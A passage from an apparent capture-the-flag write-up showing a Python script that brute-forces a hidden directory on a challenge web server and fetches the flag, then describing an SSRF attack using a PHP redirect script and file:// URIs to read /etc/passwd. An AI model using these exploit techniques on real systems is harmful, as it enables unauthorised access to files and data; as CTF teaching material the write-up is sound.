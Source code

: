 ```python
        print(directory)
        continue

    for c in charset:
        payload = f'[{c}{known1[i]}]'     
        resp = attempt(payload)
        if b'No such file or directory' in resp:
            total_payload += payload
            directory += c
            print(directory)
            flag = True
            break

    # no match by this point means known2[i] == target[i]
    if not flag:
        total_payload += f"[{known1[i]}{known2[i]}]"
        directory += known2[i]
        print(directory)
    
    print(total_payload)

print(directory)

flag_payload = f"""
GET /assets/{directory}/flag.txt HTTP/1.1
Host: chal-kalmarc.tf:8080
""".lstrip() + "\r\n" * 2

conn = remote('chal-kalmarc.tf',8080)
conn.send(flag_payload) 
print(conn.recvall())
```

Either way, you will find the hidden directory is `9df5256fe48859c91122cb92964dbd66` and you can find the flag located at `/assets/9df5256fe48859c91122cb92964dbd66/flag.txt` to solve it!

`kalmar{17b29adf_bash_web_server_was_a_mistake_374add33}`

## web/Is It Down
This was yet another sourceless web challenge.

We noticed the obvious SSRF straight away. If you intercept the HTTP request you can find the response is given. We tried to use a redirect to a http server and found that it worked. This meant that we could send it to our https website and then redirect to a non-http address from there. Next, gg0h was able to use the `file://` URI to leak local files and read the `/etc/passwd` file.

I wrote my own PHP script to allow me to automatically play with this bug:

```php
<?php
header("Location: ".$_GET['x']);
?>
```
